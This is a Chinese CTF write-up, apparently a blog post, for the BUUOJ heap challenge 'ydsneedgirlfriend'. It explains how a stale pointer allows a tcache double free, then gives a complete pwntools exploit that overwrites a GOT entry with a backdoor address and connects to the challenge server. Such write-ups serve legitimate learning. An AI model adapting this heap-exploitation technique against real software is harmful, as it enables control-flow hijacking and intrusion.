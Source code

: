 # ydsneedgirlfriend

一开始跳过了这题，原来还是有堆题的。。。有一处后门。

![s9iORP](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/s9iORP.png)

审题：

malloc部分

​	每次malloc的指针都会被放在girlfriend数组第一位，下次一malloc会覆盖上一次保存的指针。因此，同一时间段只能保持最近malloc的chunk可控

free部分

​	free会清除malloc空间的指针，但是不会清除girlfriend数组内的指针

通过free两次girlfriend指向的空间，造成double free。

```
malloc(0x20,"AAAAAA")
malloc(0x20,"BBBBBB")
free(0)
free(0) #double free
malloc(0x20,p64(0x000000000602018-0x23-0x8))
```

因为是2.27，所以有[tcachebins](https://xz.aliyun.com/t/6828)，这个在gef里是看不到，所以需要注意。我对于tcachebins不太了解，不过据说这个机制的检测比较少，刚才的double free也没有被检测出来（如果是fastbin估计早就corrupt了）

![insrSw](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/insrSw.png)

直接EXP

```python
#!/usr/bin/python
from pwn import *

r  = lambda data	:p.recv(data)
ru = lambda data 	:p.recvuntil(data)
s  = lambda data	:p.send(data)
sl = lambda data	:p.sendline(data)

def malloc(size,data):
	ru("u choice :")
	sl(str(1))
	ru("Please input the length of her name:")
	sl(str(size))
	ru("Please tell me her name:")
	s(data)

def free(index):
	ru("u choice :")
	sl(str(2))
	ru("Index :")
	sl(str(index))

def show(index):
	ru("u choice :")
	sl(str(3))
	ru("Index :")
	sl(str(index))

context.log_level='Debug'
#p=process("./ydsneedgirlfriend2.dms",env={"LD_PRELOAD":"libc-2.27.so"})
p=remote('node3.buuoj.cn',27011)
#gdb.attach(p)
backdoor=0x400D86

malloc(0x20,"AAAAAA")
malloc(0x20,"BBBBBB")
free(0)
free(0) #double free
malloc(0x20,p64(0x000000000602018))
malloc(0x10,p64(0x000000000602018))
malloc(0x10,p64(0x000000000602018))
malloc(0x10,p64(backdoor))
free(0)
p.interactive()
```



![eoKLDx](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/eoKLDx.png)

